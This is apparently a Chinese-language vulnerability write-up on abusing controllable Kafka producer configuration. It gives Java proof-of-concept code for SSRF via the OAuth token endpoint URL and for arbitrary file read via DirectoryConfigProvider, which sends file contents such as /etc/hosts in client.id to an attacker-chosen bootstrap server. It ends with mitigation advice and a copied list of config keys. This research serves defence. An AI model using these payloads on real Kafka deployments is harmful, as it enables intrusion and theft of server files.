




# 背景
xxxxx
# 利用

使用如下代码模拟kafka 配置项可控：
```java

public class ProducerFileReadDemo {
    public static void main(String[] args) {
        
        // 模拟kafkaConfig参数外部可控
        Map<String,String> kafkaConfig = new HashMap<>();
        

        Map<String,Object> configs = new HashMap<>(16);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.putAll(kafkaConfig);

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        producer.close();
    }
}
```
上半年的分析里通过sasl.jaas.config修改登录模块为com.sun.security.auth.module.JndiLoginModule并指定provider.url为ldap server时可最终触发InitialContext.lookup，进而实现RCE。但是当前的环境里kafk版本已经升级到3.4.0了，升级后版本中sasl.jaas.config中禁用了com.sun.security.auth.module.JndiLoginModule，RCE是没法玩了。

继续分析kafkaProducer的配置项，发现有配置项中可以指定url：[sasl.oauthbearer.token.endpoint.url](https://docs.confluent.io/platform/current/installation/configuration/producer-configs.html#sasl-oauthbearer-token-endpoint-url),既然可以指定url，那是否可以利用这个配置项进行SSRF攻击呢？大佬告诉我们答案是肯定的~

## SSRF

参考[kafka配置oauth认证](https://docs.confluent.io/cloud/current/access-management/authenticate/oauth/configure-clients-oauth.html)先给出poc和结论如下：
```java
public class ProducerConfigInject {
    public static void main(String[] args) {
        // kafkaConfig 外部可控
        Map<String,String> kafkaConfig = new HashMap<>();
        kafkaConfig.put("bootstrap.servers","127.0.0.1:9092");
        kafkaConfig.put("security.protocol","SASL_SSL");
        kafkaConfig.put("sasl.oauthbearer.token.endpoint.url","http://127.0.0.1:8888/ssrf/evil/url"); // SSRF URL
        kafkaConfig.put("sasl.login.callback.handler.class","org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler");
        kafkaConfig.put("sasl.mechanism","OAUTHBEARER");
        kafkaConfig.put("sasl.jaas.config","org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required clientId='enokiy' scope='enokiy' clientSecret='enokiy';");

        Map<String,Object> configs = new HashMap<>(16);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.putAll(kafkaConfig);

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        producer.close();
    }
}
```


可以看到，kafka配置项可控时可进行SSRF攻击，但是只能发送POST请求，并且消息头只有Authrization头可控,body中只有scope参数可控。

在`KafkaProducer`的构造函数中,会基于properties初始化`ProducerConfig`的实例config,在`newSender(LogContext logContext, KafkaClient kafkaClient, ProducerMetadata metadata)`中创建ChannelBuilder:


当配置项中的security.protocol为`SASL_PLAINTEXT`或`SASL_SSL`时，配置项里的`sasl.mechanism`必须指定，否则为null时抛异常不会进入后面的流程：


然后当security.protocol为`SASL_PLAINTEXT`或`SASL_SSL`并且指定了`sasl.mechanism`时基于config信息生成`JaasContext`的实例,然后生成 SaslChannelBuilder实例：



在`new JaasConfig(globalContextName, dynamicJaasConfig.value())`中会把`sasl.jaas.config`中的字符串解析成`AppConfigurationEntry`的实例，其中包括`loginModuleName`以及options:
* 通过StreamTokenizer将输入字符串进行解析，作为StreamTokenizer中空白字符作为分隔符，第一个字符串作为loginModuleName，第二个字符串作为`LoginModuleControlFlag`,后面的都以key=value的方式进行解析然后放入options这个map中。解析过程中如果遇到分号";"，则返回AppConfigurationEntry的实例，进入下一个AppConfigurationEntry的解析：




然后调用`channelBuilder.configure(configs)`方法，后面进入`LoginManager.acquireLoginManager`，在`acquireLoginManager`中获取到loginClass和loginCallbackClass,如果配置文件中指定了sasl.login.class,则loginClass为指定的类,否则默认为`org.apache.kafka.common.security.oauthbearer.internals.OAuthBearerRefreshingLogin`;如果配置文件中指定了sasl.login.callback.handler.class,则loginCallbackClass为指定的类,否则默认为`org.apache.kafka.common.security.oauthbearer.internals.unsecured.OAuthBearerUnsecuredLoginCallbackHandler`。（那么问题来了，这里指定的类能不能用来做利用呢？后续继续看）


再到后面就进入`OAuthBearerRefreshingLogin`处理登录请求,调用栈如下:

```text
handle:229, OAuthBearerLoginCallbackHandler (org.apache.kafka.common.security.oauthbearer)
identifyToken:316, OAuthBearerLoginModule (org.apache.kafka.common.security.oauthbearer)
login:301, OAuthBearerLoginModule (org.apache.kafka.common.security.oauthbearer)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:755, LoginContext (javax.security.auth.login)
access$000:195, LoginContext (javax.security.auth.login)
run:682, LoginContext$4 (javax.security.auth.login)
run:680, LoginContext$4 (javax.security.auth.login)
doPrivileged:-1, AccessController (java.security)
invokePriv:680, LoginContext (javax.security.auth.login)
login:587, LoginContext (javax.security.auth.login)
login:204, ExpiringCredentialRefreshingLogin (org.apache.kafka.common.security.oauthbearer.internals.expiring)
login:150, OAuthBearerRefreshingLogin (org.apache.kafka.common.security.oauthbearer.internals)
<init>:62, LoginManager (org.apache.kafka.common.security.authenticator)
acquireLoginManager:105, LoginManager (org.apache.kafka.common.security.authenticator)
configure:170, SaslChannelBuilder (org.apache.kafka.common.network)
create:192, ChannelBuilders (org.apache.kafka.common.network)
clientChannelBuilder:81, ChannelBuilders (org.apache.kafka.common.network)
createChannelBuilder:105, ClientUtils (org.apache.kafka.clients)
newSender:511, KafkaProducer (org.apache.kafka.clients.producer)
<init>:454, KafkaProducer (org.apache.kafka.clients.producer)
<init>:290, KafkaProducer (org.apache.kafka.clients.producer)
<init>:273, KafkaProducer (org.apache.kafka.clients.producer)
main:28, ProducerConfigInject (com.github.enokiy.kafkaDemo)
```
处理登录时发送一个post请求到我们指定的地址,其中header只有一个Authorization头部分可控,值是有我们输入中指定的clientId和clientSecret的basic认证,body中只有scope参数可控:


综上，kafka配置项可控时可进行SSRF攻击，但是只能发送POST请求，并且消息头只有Authrization头可控,body中只有scope参数可控。

再来解决前面留的两个问题:
1. 既然sasl.login.class和sasl.login.callback.handler.class可以指定,是否可以指定恶意类来加载利用?
   答: 指定的sasl.login.class类名虽然可以通过进行实例化,但是classLoader不可控的情况下没法利用;加上后面指定的sasl.login.class需要强转为`org.apache.kafka.common.security.auth.Login`,所以也没法利用(sasl.login.callback.handler.class类似);
   


2. sslSocketFactory可否利用?
实例化传入的类时要求该类必须继承自SslEngineFactory，否则类型转换失败抛异常。

## 文件读

POC如下:
```java

public class ProducerConfigInject {
   public static void main(String[] args) {
      Map<String,String> kafkaConfig = new HashMap<>();
      kafkaConfig.put("bootstrap.servers","127.0.0.1:9092");
      kafkaConfig.put("config.providers","enokiytest"); //
      kafkaConfig.put("config.providers.enokiytest.class","org.apache.kafka.common.config.provider.DirectoryConfigProvider");
      kafkaConfig.put("client.id","${enokiytest:..\\..\\..\\..\\..\\..\\tmp:hosts}"); //linux ${enokiytest:/etc:hosts}
      kafkaConfig.put("sasl.jaas.config","org.apache.kafka.common.security.plain.PlainLoginModule required username=\"name\" password=\"password\";");

      Map<String,Object> configs = new HashMap<>(16);
      configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
      configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
      configs.putAll(kafkaConfig);

      //Create the Kafka producer
      KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
      ProducerRecord<String,String> producerRecord= new ProducerRecord<>("fisrt_topic","hello");
      producer.send(producerRecord);
      producer.flush();
      producer.close();
   }
}
```

kafka在解析配置参数时，除了常规能查到的88个配置项之外，当配置项中存在形如`${providerName:[path:]key}`的参数值（使用正则表达式`\\$\\{([^}]*?):(([^}]*?):)?([^}]*?)\\}"`）时，会进一步提取其中的子配置项中的providerName、以及path和key值：


然后根据配置项中的config.providers以及config.providers.[name].class来实例化对应的provider类，配置项中也可以通过config.providers.[name].param.[paramName]指定对应provider类的参数：


在Utils.newInstance中通过`Class.forName(klass, true, Utils.getContextOrKafkaClassLoader()).asSubclass( ConfigProvider.class)`的方式生成ConfigProvider的子类的实例化(目前子类有FileConfigProvider和DirectoryConfigProvider,FileConfigProvider只能读取properties文件,DirectoryConfigProvider可以读取path+key指定的文件内容).

再到后面通过configTransformer.transform中将`${providerName:[path:]key}`解析出来,如果是FileConfigProvider,则通过 Properties.load(path)读取properties文件,如果是DirectoryConfigProvider,则读取path+key的文件内容:


这里因为通过":"进行分割的结果作为path和key,而在DirectoryConfigProvider中先通过Files.list(dir)列目录,再进行文件名过滤,所以windows下没法跨盘访问文件,如从D:跨目录读取C:下面的文件。而在linux下不受限制。

再到后面把已经解析了的client_id发到我们的bootstrap.servers指定的IP端口上:


`${providerName:[path:]key}`放在kafka配置项的任意一项上都可以被解析，那这里为什么选择client.id是因为kafka的协议里面建立连接之后会发送一个Kafka (ApiVersions v0 Request),其中包括 request_api_key、request_api_version、correlation_id、client_id几个字段，只有client_id是可控的，而且kafka连接bootstrap.servers时必然会发送的字段:




综上,在kafka的配置项可控时,除了需要把版本升级到3.4.0以上之外,还需要校验是否存在危险配置项如config.providers、sasl.oauthbearer.token.endpoint.url，否则可能会导致SSRF以及文件读等攻击。


<details>
<summary>可以控制的配置项</summary>

| key |documentation|
|----|----|
| bootstrap.servers | A list of host/port pairs to use for establishing the initial connection to the Kafka cluster. The client will make use of all servers irrespective of which servers are specified here for bootstrapping&mdash;this list only impacts the initial hosts used to discover the full set of servers. This list should be in the form <code>host1:port1,host2:port2,...</code>. Since these servers are just used for the initial connection to discover the full cluster membership (which may change dynamically), this list need not contain the full set of servers (you may want more than one, though, in case a server is down). | 
| client.dns.lookup | Controls how the client uses DNS lookups. If set to <code>use_all_dns_ips</code>, connect to each returned IP address in sequence until a successful connection is established. After a disconnection, the next IP is used. Once all IPs have been used once, the client resolves the IP(s) from the hostname again (both the JVM and the OS cache DNS name lookups, however). If set to <code>resolve_canonical_bootstrap_servers_only</code>, resolve each bootstrap address into a list of canonical names. After the bootstrap phase, this behaves the same as <code>use_all_dns_ips</code>. | 
| buffer.memory | The total bytes of memory the producer can use to buffer records waiting to be sent to the server. If records are sent faster than they can be delivered to the server the producer will block for <code>max.block.ms</code> after which it will throw an exception.<p>This setting should correspond roughly to the total memory the producer will use, but is not a hard bound since not all memory the producer uses is used for buffering. Some additional memory will be used for compression (if compression is enabled) as well as for maintaining in-flight requests. | 
| retries | Setting a value greater than zero will cause the client to resend any record whose send fails with a potentially transient error. Note that this retry is no different than if the client resent the record upon receiving the error. Produce requests will be failed before the number of retries has been exhausted if the timeout configured by <code>delivery.timeout.ms</code> expires first before successful acknowledgement. Users should generally prefer to leave this config unset and instead use <code>delivery.timeout.ms</code> to control retry behavior.<p>Enabling idempotence requires this config value to be greater than 0. If conflicting configurations are set and idempotence is not explicitly enabled, idempotence is disabled.<p>Allowing retries while setting <code>enable.idempotence</code> to <code>false</code> and <code>max.in.flight.requests.per.connection</code> to 1 will potentially change the ordering of records because if two batches are sent to a single partition, and the first fails and is retried but the second succeeds, then the records in the second batch may appear first. | 
| acks | The number of acknowledgments the producer requires the leader to have received before considering a request complete. This controls the  durability of records that are sent. The following settings are allowed:  <ul> <li><code>acks=0</code> If set to zero then the producer will not wait for any acknowledgment from the server at all. The record will be immediately added to the socket buffer and considered sent. No guarantee can be made that the server has received the record in this case, and the <code>retries</code> configuration will not take effect (as the client won't generally know of any failures). The offset given back for each record will always be set to <code>-1</code>. <li><code>acks=1</code> This will mean the leader will write the record to its local log but will respond without awaiting full acknowledgement from all followers. In this case should the leader fail immediately after acknowledging the record but before the followers have replicated it then the record will be lost. <li><code>acks=all</code> This means the leader will wait for the full set of in-sync replicas to acknowledge the record. This guarantees that the record will not be lost as long as at least one in-sync replica remains alive. This is the strongest available guarantee. This is equivalent to the acks=-1 setting.</ul><p>Note that enabling idempotence requires this config value to be 'all'. If conflicting configurations are set and idempotence is not explicitly enabled, idempotence is disabled. | 
| compression.type | The compression type for all data generated by the producer. The default is none (i.e. no compression). Valid  values are <code>none</code>, <code>gzip</code>, <code>snappy</code>, <code>lz4</code>, or <code>zstd</code>. Compression is of full batches of data, so the efficacy of batching will also impact the compression ratio (more batching means better compression). | 
| batch.size | The producer will attempt to batch records together into fewer requests whenever multiple records are being sent to the same partition. This helps performance on both the client and the server. This configuration controls the default batch size in bytes. <p>No attempt will be made to batch records larger than this size. <p>Requests sent to brokers will contain multiple batches, one for each partition with data available to be sent. <p>A small batch size will make batching less common and may reduce throughput (a batch size of zero will disable batching entirely). A very large batch size may use memory a bit more wastefully as we will always allocate a buffer of the specified batch size in anticipation of additional records.<p>Note: This setting gives the upper bound of the batch size to be sent. If we have fewer than this many bytes accumulated for this partition, we will 'linger' for the <code>linger.ms</code> time waiting for more records to show up. This <code>linger.ms</code> setting defaults to 0, which means we'll immediately send out a record even the accumulated batch size is under this <code>batch.size</code> setting. | 
| partitioner.adaptive.partitioning.enable | When set to 'true', the producer will try to adapt to broker performance and produce more messages to partitions hosted on faster brokers. If 'false', producer will try to distribute messages uniformly. Note: this setting has no effect if a custom partitioner is used | 
| partitioner.availability.timeout.ms | If a broker cannot process produce requests from a partition for <code>partitioner.availability.timeout.ms</code> time, the partitioner treats that partition as not available.  If the value is 0, this logic is disabled. Note: this setting has no effect if a custom partitioner is used or <code>partitioner.adaptive.partitioning.enable</code> is set to 'false' | 
| partitioner.ignore.keys | When set to 'true' the producer won't use record keys to choose a partition. If 'false', producer would choose a partition based on a hash of the key when a key is present. Note: this setting has no effect if a custom partitioner is used. | 
| linger.ms | The producer groups together any records that arrive in between request transmissions into a single batched request. Normally this occurs only under load when records arrive faster than they can be sent out. However in some circumstances the client may want to reduce the number of requests even under moderate load. This setting accomplishes this by adding a small amount of artificial delay&mdash;that is, rather than immediately sending out a record, the producer will wait for up to the given delay to allow other records to be sent so that the sends can be batched together. This can be thought of as analogous to Nagle's algorithm in TCP. This setting gives the upper bound on the delay for batching: once we get <code>batch.size</code> worth of records for a partition it will be sent immediately regardless of this setting, however if we have fewer than this many bytes accumulated for this partition we will 'linger' for the specified time waiting for more records to show up. This setting defaults to 0 (i.e. no delay). Setting <code>linger.ms=5</code>, for example, would have the effect of reducing the number of requests sent but would add up to 5ms of latency to records sent in the absence of load. | 
| delivery.timeout.ms | An upper bound on the time to report success or failure after a call to <code>send()</code> returns. This limits the total time that a record will be delayed prior to sending, the time to await acknowledgement from the broker (if expected), and the time allowed for retriable send failures. The producer may report failure to send a record earlier than this config if either an unrecoverable error is encountered, the retries have been exhausted, or the record is added to a batch which reached an earlier delivery expiration deadline. The value of this config should be greater than or equal to the sum of <code>request.timeout.ms</code> and <code>linger.ms</code>. | 
| client.id | An id string to pass to the server when making requests. The purpose of this is to be able to track the source of requests beyond just ip/port by allowing a logical application name to be included in server-side request logging. | 
| send.buffer.bytes | The size of the TCP send buffer (SO_SNDBUF) to use when sending data. If the value is -1, the OS default will be used. | 
| receive.buffer.bytes | The size of the TCP receive buffer (SO_RCVBUF) to use when reading data. If the value is -1, the OS default will be used. | 
| max.request.size | The maximum size of a request in bytes. This setting will limit the number of record batches the producer will send in a single request to avoid sending huge requests. This is also effectively a cap on the maximum uncompressed record batch size. Note that the server has its own cap on the record batch size (after compression if compression is enabled) which may be different from this. | 
| reconnect.backoff.ms | The base amount of time to wait before attempting to reconnect to a given host. This avoids repeatedly connecting to a host in a tight loop. This backoff applies to all connection attempts by the client to a broker. | 
| reconnect.backoff.max.ms | The maximum amount of time in milliseconds to wait when reconnecting to a broker that has repeatedly failed to connect. If provided, the backoff per host will increase exponentially for each consecutive connection failure, up to this maximum. After calculating the backoff increase, 20% random jitter is added to avoid connection storms. | 
| retry.backoff.ms | The amount of time to wait before attempting to retry a failed request to a given topic partition. This avoids repeatedly sending requests in a tight loop under some failure scenarios. | 
| max.block.ms | The configuration controls how long the <code>KafkaProducer</code>'s <code>send()</code>, <code>partitionsFor()</code>, <code>initTransactions()</code>, <code>sendOffsetsToTransaction()</code>, <code>commitTransaction()</code> and <code>abortTransaction()</code> methods will block. For <code>send()</code> this timeout bounds the total time waiting for both metadata fetch and buffer allocation (blocking in the user-supplied serializers or partitioner is not counted against this timeout). For <code>partitionsFor()</code> this timeout bounds the time spent waiting for metadata if it is unavailable. The transaction-related methods always block, but may timeout if the transaction coordinator could not be discovered or did not respond within the timeout. | 
| request.timeout.ms | The configuration controls the maximum amount of time the client will wait for the response of a request. If the response is not received before the timeout elapses the client will resend the request if necessary or fail the request if retries are exhausted. This should be larger than <code>replica.lag.time.max.ms</code> (a broker configuration) to reduce the possibility of message duplication due to unnecessary producer retries. | 
| metadata.max.age.ms | The period of time in milliseconds after which we force a refresh of metadata even if we haven't seen any partition leadership changes to proactively discover any new brokers or partitions. | 
| metadata.max.idle.ms | Controls how long the producer will cache metadata for a topic that's idle. If the elapsed time since a topic was last produced to exceeds the metadata idle duration, then the topic's metadata is forgotten and the next access to it will force a metadata fetch request. | 
| metrics.sample.window.ms | The window of time a metrics sample is computed over. | 
| metrics.num.samples | The number of samples maintained to compute metrics. | 
| metrics.recording.level | The highest recording level for metrics. | 
| metric.reporters | A list of classes to use as metrics reporters. Implementing the <code>org.apache.kafka.common.metrics.MetricsReporter</code> interface allows plugging in classes that will be notified of new metric creation. The JmxReporter is always included to register JMX statistics. | 
| auto.include.jmx.reporter | Deprecated. Whether to automatically include JmxReporter even if it's not listed in <code>metric.reporters</code>. This configuration will be removed in Kafka 4.0, users should instead include <code>org.apache.kafka.common.metrics.JmxReporter</code> in <code>metric.reporters</code> in order to enable the JmxReporter. | 
| max.in.flight.requests.per.connection | The maximum number of unacknowledged requests the client will send on a single connection before blocking. Note that if this configuration is set to be greater than 1 and <code>enable.idempotence</code> is set to false, there is a risk of message reordering after a failed send due to retries (i.e., if retries are enabled);  if retries are disabled or if <code>enable.idempotence</code> is set to true, ordering will be preserved. Additionally, enabling idempotence requires the value of this configuration to be less than or equal to 5. If conflicting configurations are set and idempotence is not explicitly enabled, idempotence is disabled.  | 
| key.serializer | Serializer class for key that implements the <code>org.apache.kafka.common.serialization.Serializer</code> interface. | 
| value.serializer | Serializer class for value that implements the <code>org.apache.kafka.common.serialization.Serializer</code> interface. | 
| socket.connection.setup.timeout.ms | The amount of time the client will wait for the socket connection to be established. If the connection is not built before the timeout elapses, clients will close the socket channel. | 
| socket.connection.setup.timeout.max.ms | The maximum amount of time the client will wait for the socket connection to be established. The connection setup timeout will increase exponentially for each consecutive connection failure up to this maximum. To avoid connection storms, a randomization factor of 0.2 will be applied to the timeout resulting in a random range between 20% below and 20% above the computed value. | 
| connections.max.idle.ms | Close idle connections after the number of milliseconds specified by this config. | 
| partitioner.class | A class to use to determine which partition to be send to when produce the records. Available options are:<ul><li>If not set, the default partitioning logic is used. This strategy will try sticking to a partition until at least batch.size bytes is produced to the partition. It works with the strategy:<ul><li>If no partition is specified but a key is present, choose a partition based on a hash of the key</li><li>If no partition or key is present, choose the sticky partition that changes when at least batch.size bytes are produced to the partition.</li></ul></li><li><code>org.apache.kafka.clients.producer.RoundRobinPartitioner</code>: This partitioning strategy is that each record in a series of consecutive records will be sent to a different partition(no matter if the 'key' is provided or not), until we run out of partitions and start over again. Note: There's a known issue that will cause uneven distribution when new batch is created. Please check KAFKA-9965 for more detail.</li></ul><p>Implementing the <code>org.apache.kafka.clients.producer.Partitioner</code> interface allows you to plug in a custom partitioner. | 
| interceptor.classes | A list of classes to use as interceptors. Implementing the <code>org.apache.kafka.clients.producer.ProducerInterceptor</code> interface allows you to intercept (and possibly mutate) the records received by the producer before they are published to the Kafka cluster. By default, there are no interceptors. | 
| security.protocol | Protocol used to communicate with brokers. Valid values are: PLAINTEXT, SSL, SASL_PLAINTEXT, SASL_SSL. | 
| security.providers | A list of configurable creator classes each returning a provider implementing security algorithms. These classes should implement the <code>org.apache.kafka.common.security.auth.SecurityProviderCreator</code> interface. | 
| ssl.protocol | The SSL protocol used to generate the SSLContext. The default is 'TLSv1.3' when running with Java 11 or newer, 'TLSv1.2' otherwise. This value should be fine for most use cases. Allowed values in recent JVMs are 'TLSv1.2' and 'TLSv1.3'. 'TLS', 'TLSv1.1', 'SSL', 'SSLv2' and 'SSLv3' may be supported in older JVMs, but their usage is discouraged due to known security vulnerabilities. With the default value for this config and 'ssl.enabled.protocols', clients will downgrade to 'TLSv1.2' if the server does not support 'TLSv1.3'. If this config is set to 'TLSv1.2', clients will not use 'TLSv1.3' even if it is one of the values in ssl.enabled.protocols and the server only supports 'TLSv1.3'. | 
| ssl.provider | The name of the security provider used for SSL connections. Default value is the default security provider of the JVM. | 
| ssl.cipher.suites | A list of cipher suites. This is a named combination of authentication, encryption, MAC and key exchange algorithm used to negotiate the security settings for a network connection using TLS or SSL network protocol. By default all the available cipher suites are supported. | 
| ssl.enabled.protocols | The list of protocols enabled for SSL connections. The default is 'TLSv1.2,TLSv1.3' when running with Java 11 or newer, 'TLSv1.2' otherwise. With the default value for Java 11, clients and servers will prefer TLSv1.3 if both support it and fallback to TLSv1.2 otherwise (assuming both support at least TLSv1.2). This default should be fine for most cases. Also see the config documentation for `ssl.protocol`. | 
| ssl.keystore.type | The file format of the key store file. This is optional for client. The values currently supported by the default `ssl.engine.factory.class` are [JKS, PKCS12, PEM]. | 
| ssl.keystore.location | The location of the key store file. This is optional for client and can be used for two-way authentication for client. | 
| ssl.keystore.password | The store password for the key store file. This is optional for client and only needed if 'ssl.keystore.location' is configured. Key store password is not supported for PEM format. | 
| ssl.key.password | The password of the private key in the key store file or the PEM key specified in 'ssl.keystore.key'. | 
| ssl.keystore.key | Private key in the format specified by 'ssl.keystore.type'. Default SSL engine factory supports only PEM format with PKCS#8 keys. If the key is encrypted, key password must be specified using 'ssl.key.password' | 
| ssl.keystore.certificate.chain | Certificate chain in the format specified by 'ssl.keystore.type'. Default SSL engine factory supports only PEM format with a list of X.509 certificates | 
| ssl.truststore.certificates | Trusted certificates in the format specified by 'ssl.truststore.type'. Default SSL engine factory supports only PEM format with X.509 certificates. | 
| ssl.truststore.type | The file format of the trust store file. The values currently supported by the default `ssl.engine.factory.class` are [JKS, PKCS12, PEM]. | 
| ssl.truststore.location | The location of the trust store file. | 
| ssl.truststore.password | The password for the trust store file. If a password is not set, trust store file configured will still be used, but integrity checking is disabled. Trust store password is not supported for PEM format. | 
| ssl.keymanager.algorithm | The algorithm used by key manager factory for SSL connections. Default value is the key manager factory algorithm configured for the Java Virtual Machine. | 
| ssl.trustmanager.algorithm | The algorithm used by trust manager factory for SSL connections. Default value is the trust manager factory algorithm configured for the Java Virtual Machine. | 
| ssl.endpoint.identification.algorithm | The endpoint identification algorithm to validate server hostname using server certificate.  | 
| ssl.secure.random.implementation | The SecureRandom PRNG implementation to use for SSL cryptography operations.  | 
| ssl.engine.factory.class | The class of type org.apache.kafka.common.security.auth.SslEngineFactory to provide SSLEngine objects. Default value is org.apache.kafka.common.security.ssl.DefaultSslEngineFactory | 
| sasl.kerberos.service.name | The Kerberos principal name that Kafka runs as. This can be defined either in Kafka's JAAS config or in Kafka's config. | 
| sasl.kerberos.kinit.cmd | Kerberos kinit command path. | 
| sasl.kerberos.ticket.renew.window.factor | Login thread will sleep until the specified window factor of time from last refresh to ticket's expiry has been reached, at which time it will try to renew the ticket. | 
| sasl.kerberos.ticket.renew.jitter | Percentage of random jitter added to the renewal time. | 
| sasl.kerberos.min.time.before.relogin | Login thread sleep time between refresh attempts. | 
| sasl.login.refresh.window.factor | Login refresh thread will sleep until the specified window factor relative to the credential's lifetime has been reached, at which time it will try to refresh the credential. Legal values are between 0.5 (50%) and 1.0 (100%) inclusive; a default value of 0.8 (80%) is used if no value is specified. Currently applies only to OAUTHBEARER. | 
| sasl.login.refresh.window.jitter | The maximum amount of random jitter relative to the credential's lifetime that is added to the login refresh thread's sleep time. Legal values are between 0 and 0.25 (25%) inclusive; a default value of 0.05 (5%) is used if no value is specified. Currently applies only to OAUTHBEARER. | 
| sasl.login.refresh.min.period.seconds | The desired minimum time for the login refresh thread to wait before refreshing a credential, in seconds. Legal values are between 0 and 900 (15 minutes); a default value of 60 (1 minute) is used if no value is specified.  This value and  sasl.login.refresh.buffer.seconds are both ignored if their sum exceeds the remaining lifetime of a credential. Currently applies only to OAUTHBEARER. | 
| sasl.login.refresh.buffer.seconds | The amount of buffer time before credential expiration to maintain when refreshing a credential, in seconds. If a refresh would otherwise occur closer to expiration than the number of buffer seconds then the refresh will be moved up to maintain as much of the buffer time as possible. Legal values are between 0 and 3600 (1 hour); a default value of  300 (5 minutes) is used if no value is specified. This value and sasl.login.refresh.min.period.seconds are both ignored if their sum exceeds the remaining lifetime of a credential. Currently applies only to OAUTHBEARER. | 
| sasl.mechanism | SASL mechanism used for client connections. This may be any mechanism for which a security provider is available. GSSAPI is the default mechanism. | 
